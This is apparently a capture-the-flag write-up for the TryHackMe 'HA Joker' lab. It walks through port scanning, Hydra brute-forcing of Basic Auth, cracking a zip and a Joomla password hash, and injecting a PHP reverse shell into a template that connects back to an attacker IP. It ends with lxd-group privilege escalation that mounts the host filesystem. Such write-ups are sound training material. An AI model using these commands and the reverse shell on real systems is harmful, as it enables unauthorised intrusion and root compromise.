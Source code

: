 # [HA Joker CTF](https://tryhackme.com/room/jokerctf)

## Batman hits Joker.

# HA Joker CTF

## We have developed this lab for the purpose of online penetration practices. Solving this lab is not that tough if you have proper basic knowledge of Penetration testing. Let’s start and learn how to breach it.

### What version of Apache is it?

1. First, we need to perform a basic port scan to identify open services and their versions. We'll use Nmap with the `-sV` flag to enable version detection
   - From the scan results, we can see that the machine is running **Apache version 2.4.29**

```Bash
nmap -sV IP
```

![SCREEN01](https://github.com/user-attachments/assets/2aa916c2-8bf5-463b-858f-70dfd8b5011b)

### What port on this machine not need to be authenticated by user and password?

1. For more detailed information about the open ports, let's run another Nmap scan with the `-sC` flag to enable default scripts
   - Analyzing the results, we can determine that **port 80** is accessible without authentication, while port 8080 requires credentials

```Bash
nmap -sC IP
```

![SCREEN02](https://github.com/user-attachments/assets/1bfb4efb-8080-4477-b593-71dcd6ae354e)

### There is a file on this port that seems to be secret, what is it?

### There is another file which reveals information of the backend, what is it?

1. Enumerate the web directories on port 80 using Gobuster to discover hidden files and directories
   - We discovered two interesting files: **secret.txt** and **phpinfo.php**

```Bash
gobuster dir -u http://IP:80 -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt,js
```

![SCREEN03](https://github.com/user-attachments/assets/5a96e2ae-1325-4621-9490-c7b43c3a8c20)

### When reading the secret file, We find with a conversation that seems contains at least two users and some keywords that can be intersting, what user do you think it is?

1. Examine the content of the secret.txt file by navigating to `http://IP/secret.txt` in our browser
   - Upon reading the file, we find a conversation that mentions a user named **joker**

![SCREEN04](https://github.com/user-attachments/assets/36f789a6-353c-4b73-9690-c8456367b873)

### What port on this machine need to be authenticated by Basic Authentication Mechanism?

1. Referring back to our initial Nmap scan results, we identified that port **8080** requires authentication using HTTP Basic Authentication

```Bash
nmap -sC IP
```

![SCREEN02](https://github.com/user-attachments/assets/e356d653-df2f-4979-bbc6-9151a76d8907)

### At this point we have one user and a url that needs to be aunthenticated, brute force it to get the password, what is that password?

1. Now that we have a potential username, let's attempt to brute force the password for this account using Hydra

```Bash
hydra -l joker -P /root/Tools/wordlists/rockyou.txt IP http-get -s 8080 /
```

![SCREEN05](https://github.com/user-attachments/assets/3fa08da5-b1ca-4f8a-a18e-040f8fe4a3cb)

### Yeah!! We got the user and password and we see a cms based blog. Now check for directories and files in this port. What directory looks like as admin directory?

### We need access to the administration of the site in order to get a shell, there is a backup file, What is this file?

1. With valid credentials, we need to further enumerate the web application on port 8080. We can use Nikto or Gobuster for this task
   - From scan results, we identify two important directories: `/administrator` and `/backup`

```Bash
nikto -h http://IP:8080 -id joker:hannah
```

Or

```Bash
gobuster dir -u http://IP:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -U joker -P hannah
```

![SCREEN06](https://github.com/user-attachments/assets/a0802311-6dc1-4006-9c26-1996f7700694)

### We have the backup file and now we should look for some information, for example database, configuration files, etc ... But the backup file seems to be encrypted. What is the password?

1. The backup file appears to be password protected. We'll use zip2john to extract the hash and then crack it with John the Ripper

```Bash
zip2john backup.zip > hash.txt
john hash.txt
```

![SCREEN07](https://github.com/user-attachments/assets/86539c55-dd52-4598-990a-2bd0f9de8e3c)

### Remember that... We need access to the administration of the site... Blah blah blah. In our new discovery we see some files that have compromising information, maybe db? ok what if we do a restoration of the database! Some tables must have something like user_table! What is the super duper user?

1. After extracting the backup.zip file, we find a database backup named joomladb.sql. Let's analyze it to find user information
   - This reveals a user described as "Super Duper User" with the username **admin**

```Bash
grep -i "duper" joomladb.sql
```

![SCREEN08](https://github.com/user-attachments/assets/8c6f22d4-3770-4bef-a145-cae4f76f5564)

### Super Duper User! What is the password?

1. To find the admin's password, we extract hash from the SQL file and save it to a text file `hash.txt`

```Bash
john hash.txt
```

![SCREEN09](https://github.com/user-attachments/assets/bfa96673-dbee-4eff-9d97-e0a9983da30e)

### At this point, you should be upload a reverse-shell in order to gain shell access. What is the owner of this session?

### This user belongs to a group that differs on your own group, What is this group?

1. With admin credentials for the Joomla CMS, we can now upload a reverse shell. We'll navigate to `http://IP:8080/administrator/index.php?option=com_templates&view=template&id=503&file=L2Vycm9yLnBocA%3D%3D`

2. In the template editor, we'll insert a [PHP reverse shell](https://github.com/mosec0/Reverse-Shell/blob/main/reverse-shell.php)

```php
<?php
// Set Your IP and Port
$ip = '10.10.76.165';
$port = 4444;

// Open Connection on Your Machine
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh -i', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);

?>
```

![SCREEN10](https://github.com/user-attachments/assets/56f56e24-feae-4555-8a87-0d8027761db5)

3. Before triggering the shell, we'll set up a netcat listener on our attacking machine

```Bash
nc -lvnp 4444
```

4. Then we trigger the shell by visiting `http://IP/templates/beez3/error.php`,
   - Owner of the session is **www-data** and group is **lxd**

![SCREEN11](https://github.com/user-attachments/assets/c8d4ed75-081d-41a4-bb0b-4267cddda852)

### Spawn a tty shell.

1. To make our shell more usable, we'll spawn a proper TTY shell:

```Bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### What is the name of the file in the /root directory?

1. Since our user is a member of the lxd group, we can exploit this to gain root access. First, we check for existing LXD images

```Bash
lxc image list
```

2. On our attacking machine, we'll prepare an Alpine Linux container image:

```Bash
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder/
python -m SimpleHTTPServer
```

3. Back on the target machine, download and import this image. Create and configure a privileged container with the host filesystem mounted inside. Finally, execute a shell inside the container and browse to the host's root directory

```Bash
cd /tmp
wget http://IP:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz
lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
cd /mnt/root/root
ls
```

![SCREEN12](https://github.com/user-attachments/assets/6fdc5239-da50-48de-a80c-4290e3911bf8)
